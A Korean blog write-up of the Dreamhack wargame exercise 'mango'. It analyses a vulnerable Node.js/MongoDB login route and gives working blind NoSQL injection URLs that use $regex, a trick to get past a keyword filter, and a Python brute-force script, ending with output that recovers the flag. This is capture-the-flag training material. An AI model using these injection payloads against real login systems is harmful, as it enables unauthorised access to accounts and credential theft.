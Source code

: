 ```yaml
---
layout : single
title : "STAGE6. SQL Injection (6) : Exercise"
categories: web-hacking
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```



# Web Hacking [함께실습] mango
## 웹 서비스 분석

### 엔드포인트 : /login
이용자가 뭐리로 전달한 uid와 upw로 데이터베이스를 검색하고, 찾아낸 이용자의 정보를 반환한다.

```js
app.get('/login', function(req, res) {
    if(filter(req.query)){ // filter 함수 실행
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query; 
    db.collection('user').findOne({ // db에서 uid, upw로 검색
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){ 
            res.send('err');
        }else if(result){ 
            res.send(result['uid']); 
        }else{
            res.send('undefined'); 
        }
    })
});
```

### filter 함수
일부 문자열을 필터링하는 함수로, login의 GET 핸들러를 살펴보면, 이용자의 요청에 포함된 쿼리를 filter 함수로 필터링한다. 해당 함수는 admin, dh, admi라는 문자열이 있을 때 true를 반환한다. (이러한 필터링은 인젝션이 발생할 수 있는 근본적 문제점을 해결하지 못하며, 보안상 안전한 코딩 방식이 아니다.)

```js
// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];
filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}
```

## 취약점 분석 & 익스플로잇 (Exploit : 취약점 공격)
로그인 페이지를 구성하는 코드에서, 쿼리 전달부를 살펴보면, 쿼리의 변수 타입을 검사하지 않는다
```js
const {uid, upw} = req.query; // 이용자가 전송한 uid, upw 입력값을 가져옴
db.collection('user').findOne({ // db에서 uid, upw로 검색
    'uid': uid,
    'upw': upw,
}
```

1) Blind NoSQL Injection Payload 생성 <br><br>
MongoDB의 $regex 연산을 사용하여 정규표현식을 이용해 데이터를 검색할 수 있고, upw가 일치하는 경우 uid, 아닌 경우 undefined가 출력되는 것을 통해 쿼리의 참과 거짓을 확인할 수 있다.

```
http://host1.dreamhack.games:13698/login?uid=guest&upw[$regex]=.*
```

2) filter 우회 <br><br>
filter 함수가 특정 문자열을 필터링하지만, 정규표현식에서 임의 문자를 의미하는 .을 이용하면 쉽게 우회할 수 있다.

```
http://host1.dreamhack.games:13698/login?uid[$regex]=ad.in&upw[$regex]=D.{*
```
#### 익스플로잇

```python
import requests
import string

url = 'http://host3.dreamhack.games:10122/login?uid[$regex]=adm..&upw[$regex]=D.{'
alphanumeric = string.ascii_letters + string.digits
flag = ''

for i in range(32):
    for char in alphanumeric:
        res = requests.get(url + flag + char + '.*')
        if res.text == 'admin':
            flag += char
            print('DH{' + flag)
            break

print('DH{' + flag + '}')
```
위와 같이 브루트포스를 통해 모든 숫자, 알파벳을 넣어보며 한 글자씩 검사한다. 이 때, 반환되는 text가 admin이라면 해당 글자를 flag에 더해주며 순차적으로 출력한다. <br><br>
결과
```
DH{8
DH{89
DH{89e
DH{89e5
DH{89e50
DH{89e50f
DH{89e50fa
DH{89e50fa6
DH{89e50fa6f
DH{89e50fa6fa
DH{89e50fa6fafe26
DH{89e50fa6fafe260
DH{89e50fa6fafe2604
DH{89e50fa6fafe2604e
DH{89e50fa6fafe2604e3
DH{89e50fa6fafe2604e33
DH{89e50fa6fafe2604e33c
DH{89e50fa6fafe2604e33c0
DH{89e50fa6fafe2604e33c0b
DH{89e50fa6fafe2604e33c0ba
DH{89e50fa6fafe2604e33c0ba0
DH{89e50fa6fafe2604e33c0ba05
DH{89e50fa6fafe2604e33c0ba058
DH{89e50fa6fafe2604e33c0ba0584
DH{89e50fa6fafe2604e33c0ba05843
DH{89e50fa6fafe2604e33c0ba05843d
DH{89e50fa6fafe2604e33c0ba05843d3
DH{89e50fa6fafe2604e33c0ba05843d3d
DH{89e50fa6fafe2604e33c0ba05843d3df
DH{89e50fa6fafe2604e33c0ba05843d3df}
```
